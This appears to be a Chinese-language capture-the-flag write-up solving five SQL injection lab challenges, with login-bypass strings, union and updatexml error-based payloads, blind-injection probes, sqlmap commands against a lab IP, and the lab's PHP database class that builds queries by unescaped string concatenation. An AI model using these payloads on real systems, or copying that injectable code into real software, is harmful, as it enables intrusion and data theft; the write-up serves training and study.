








# 第一题 经典注入

key在根目录下，想用你所学的知识找到它

## write up

### 绕过登陆


使用万能用户名 `'OR 1=1-- - `绕过登陆

### 寻找注入点

`http://211.103.180.146:34727/start/index.php?m=patient&o=edit&pid=1%27`

在pid=1后面添加了单引号 `'`后,出现提示

```txt
Fatal error: Uncaught mysqli_sql_exception: You have an error in your SQL syntax; 
check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 1' at line 1 
in /var/www/html/start/lib/mysql.class.php:42 Stack trace: #0 /var/www/html/start/lib/mysql.class.php(42): mysqli_query() #1 /var/www/html/start/lib/mysql.class.php(95): c_mysql->select() #2 /var/www/html/start/lib/mysql.class.php(102): c_mysql->select_date() #3 /var/www/html/start/model/patient_edit.php(4): c_mysql->select_one() #4 /var/www/html/start/index.php(48): include('...') #5 {main} thrown in /var/www/html/start/lib/mysql.class.php on line 42
```

注意 `syntax to use near ''1'' LIMIT 1' `

这里并不是"1" ,在sql报错时,会使用 `'xxx'`包裹可能的报错行, 所以错误的sql语句是
`'1'' LIMIT 1`

可知道原始的查询可能是 `SELECT x FROM x WHERE x='$pid' LIMIT 1`

所以尝试注释掉后面的内容 ,使用 `pid=1%27-- -`,如下所示,页面显示正常



### 联合查询

使用 `pid=1'order by 16-- -`时,页面报错, 说明原始查询的列数为15列,

`pid=0'union select 1,2,3,4,5,6,7,8,9,0,11,12,13,14,15-- -`

将原始查询的pid 修改为不存在的值,这样就可以知道后面的联合查询 显示的位置

我们可以利用5或11或13号位置来返回需要的数据


### 读取flag

需要使用 [LOADD_FILE() 函数](https://www.cainiaoya.com/mysql/mysql-load-file.html) 来读取文件,但是这题比较坑爹,没名字也没说根到底说的哪个

`pid=0'union select 1,2,3,4,LOAD_FILE('/key'),6,7,8,9,0,11,12,13,14,15-- -`


### 源码:

```php

<?php class c_mysql
{
    protected $conn;
    protected $dbconfig;

    function __construct()
    {
        global $config;
        $this->dbconfig = $config["db"];
        for ($i = 0; $i < 10; $i++) {
            $conn = @mysqli_connect(
                $this->dbconfig["hostname"],
                $this->dbconfig["username"],
                $this->dbconfig["password"],
                $this->dbconfig["datebase"]
            );
            if ($conn) {
                $this->conn = $conn;
                mysqli_query(
                    $this->conn,
                    "SET character_set_connection=" .
                        $this->dbconfig["charset"] .
                        ", character_set_results=" .
                        $this->dbconfig["charset"] .
                        ", character_set_client=binary;"
                );
                break;
            }
            if ($i == 9) {
                exit("Database Connection Failed");
            }
        }
    }

    function sql($sql)
    {
        return mysqli_query($this->conn, $sql);
    }

    function insert($sql = "")
    {
        //  echo $sql.'<br />';
        if (empty($sql) or !$this->conn) {
            return false;
        }
        $result = mysqli_query($this->conn, $sql);
        if (!$result) {
            return false;
        }
        $insert_id = mysqli_insert_id($this->conn);
        if ($insert_id) {
            return $insert_id;
        }
        return true;
    }

    function select($sql = "")
    {
        // echo $sql."<br />";
        if (empty($sql) or !$this->conn) {
            return false;
        }
        $result = mysqli_query($this->conn, $sql);
        if (!$result) {
            return false;
        }
        $count = 0;
        $date = [];
        while ($row = mysqli_fetch_array($result)) {
            $date[$count++] = $row;
        }
        mysqli_free_result($result);
        return $date;
    }

    function update($sql)
    {
        //echo $sql;
        if (empty($sql) or !$this->conn) {
            return false;
        }
        return mysqli_query($this->conn, $sql);
    }

    function delete($sql)
    {
        if (empty($sql) or !$this->conn) {
            return false;
        }
        return mysql_query($sql);
    }

    function insert_date($table, $date)
    {
        $table = $this->dbconfig["pre"] . $table;
        $keys = [];
        foreach ($date as $key => $value) {
            $keys[] = "`" . $key . "`='" . $value . "'";
        }
        $keys = implode(", ", $keys);
        $sql = "INSERT INTO " . $table . " SET " . $keys;
        return $this->insert($sql);
    }

    function select_date(
        $table,
        $keys = "",
        $fields = "",
        $limit = "",
        $ord = "",
        $sort = "DESC"
    ) {
        $where = "";
        $table = $this->dbconfig["pre"] . $table;
        if (is_array($keys)) {
            if (!empty($keys)) {
                $array = [];
                foreach ($keys as $key => $value) {
                    $array[] = "`" . $key . "` = '" . $value . "'";
                }
                $where = implode(" and ", $array);
                $where = " WHERE " . $where;
            }
        }
        if ($fields == "") {
            $fields = "*";
        }
        $sql = "SELECT " . $fields . " FROM " . $table . $where;
        if ($ord != "") {
            $sql .= " ORDER BY " . $ord . " " . $sort;
        }
        if ($limit != "") {
            $sql .= " LIMIT " . $limit;
        }
        $result = $this->select($sql);
        if (empty($result)) {
            return false;
        }
        return $result;
    }

    function select_one(
        $table,
        $keys = "",
        $fields = "",
        $ord = "",
        $sort = "DESC"
    ) {
        $result = $this->select_date($table, $keys, $fields, 1, $ord, $sort);
        if (empty($result)) {
            return false;
        }
        return $result[0];
    }

    function update_date($table, $keys = "", $date, $limit = "")
    {
        $where = "";
        $table = $this->dbconfig["pre"] . $table;
        if (is_array($keys)) {
            if (!empty($keys)) {
                $array = [];
                foreach ($keys as $key => $value) {
                    $array[] = $key . " = '" . $value . "'";
                }
                $where = implode(" AND ", $array);
                $where = " WHERE " . $where;
            }
        }
        $dates = [];
        foreach ($date as $key => $value) {
            $dates[] = $key . " = '" . $value . "'";
        }
        $dates = implode(",", $dates);
        $sql = "UPDATE " . $table . " SET " . $dates . $where;
        if ($limit != "") {
            $sql .= " LIMIT " . $limit;
        }
        return $this->update($sql);
    }

    function delete_date($table, $date, $limit = "")
    {
        $keys = [];
        $table = $this->dbconfig["pre"] . $table;
        foreach ($date as $key => $value) {
            $keys[] = $key . "='" . $value . "'";
        }
        $keys = implode(" AND ", $keys);
        $sql = "DELETE FROM " . $table . " WHERE " . $keys;
        if ($limit != "") {
            $sql .= " LIMIT " . $limit;
        }
        return $this->delete($sql);
    }

    function transaction_start()
    {
        mysql_query("SET  AUTOCOMMIT=0");
        mysql_query("BEGIN");
    }

    function rollback()
    {
        mysql_query("ROOLBACK");
    }

    function commit()
    {
        mysql_query("COMMIT");
    }
} ?>
```

# 第二题 万能密码

登录获得flag

## write up

直接用户名框中 `'OR 1=1-- -`即可以绕过

# 第三题 基于错误的注入

flag值在数据库中，想办法拿到吧

## write up

使用简单的弱口令登陆了


### 思考

会显示我们的UA头信息,尝试修改UA头的信息,

发现有语法错误,但是页面还是显示了请求的UA信息,可以猜测 他可能只是使用变量显示出来的,

特别值的注意的是,报错的信息, 他看起来不像一个查询语句,而是像一个向数据库插入数据的语句,如:
`INSERT INTO table_name (column1,column2,column3,...) VALUES (value1,value2,value3,...);`
我们根据报错信息,可以构造一个这样的UA头:

`User-Agent: 1','ip','admim')-- -`


可以看到没有报错了,如果尝试 在某个字段读取数据,这是没有办法显示出来的,例如:



在插入语句中,如何能看到信息呢???

### 解决

利用updatexml()函数 ,利用报错,将信息返回出来,如下:

`updatexml(1,concat(0x7e,database(),0x7e),1)`


找到了数据库名,接下来就是查找数据库的表名

`updatexml(1,concat(0x7e,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()),0x7e),1)`


有用的表名应该在 flagage 表中,所以继续枚举他的字段名

`updatexml(1,concat(0x7e,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='flagage'),0x7e),1)`



查看flagnisp 字段的内容




### 使用sqlmap

可以尝试自动化的来解决,pte的靶机中有一个sqlmap,我们可以这样使用,

#### 1.保存请求的数据

右键选择copy to file 或者全选数据后保存到文本文件中


在命令窗口中使用以下的cmd命令:

`python sqlmap.py -r 1.txt  -p "User-Agent" --dbs`

* -r 指定请求文件
* -p 指定sql测试的字段
* --dbs 获取所有的数据库名


# 第四题 盲注入

获取数据库中的flag


## write up

按照提示,我门提供一个id作为参数,页面会显示 *你正在查询数据中* 


当使用 `' `时,页面将不会显示内容


我们可以用下面俩个来测试 盲注入:

```
?id=1' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a'-- -
```


```
?id=1' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a'-- -
```



#### burp枚举数据库名

当when()中的比较有问题时,页面将显示内容,基于这个信息,我们可以枚举数据库名:

```
?id=1' AND (SELECT CASE WHEN (LENGTH(database())=6) THEN 1/0 ELSE 'a' END)='a'-- -
```



说明当前数据库名为6个字符, 接下来就可以使用 burp 来测试每个字符:

`id=1' AND (SELECT CASE WHEN (ASCII(SUBSTRING(database(),§1§,1))=§32§) THEN 1/0 ELSE 'a' END)='a'-- -`

在§1§ 号的paylaod 选择number,这里使用1-6
在 `§32§` 号的payload 也选择number,使用32-126 (ascii的可见字符十进制)

选择集束炸弹攻击,这样将得到 数据库名字,如下,得到数据库名的第一个字符十进制:109 也就是 字符 m



但是这样非常的复杂,这种简单的还是交给sqlmap来完成吧


### sqlmap

#### 1.获取有用的数据库名

```cmd
C:\Software\注入工具\sqlmap>python sqlmap.py -u "http://211.103.180.146:32687/?i
d=1" -p "id" --dbs
```

* -u 指定url

* -p 指定注入参数
* --dbs 获取所有的数据库名

获取到所有的数据库名

```cmd
available databases [5]:
[*] information_schema
[*] mylabs
[*] mysql
[*] performance_schema
[*] sys
```

#### 2.dump 数据库下所有表的数据

```cmd
C:\Software\注入工具\sqlmap>python sqlmap.py -u "http://211.103.180.146:32687/?i
d=1" -p "id" --dump -D mylabs
```

--dump 获取数据

-D 指定 数据库名

这样就可以获取到这个数据库中所有表的数据,


# 第5题 基于错误的注入



## writeup

使用sqlmap 来注入,

```cmd
C:\Software\注入工具\sqlmap>python sqlmap.py -r 2.txt --batch -p uname -p  passw
d --dbs
```

枚举到数据库后,再使用

```cmd
C:\Software\注入工具\sqlmap>python sqlmap.py -r 2.txt --batch -p uname -p  passw
d --dump -D mylabs
```

获取到mylabs 数据库中所有表的数据
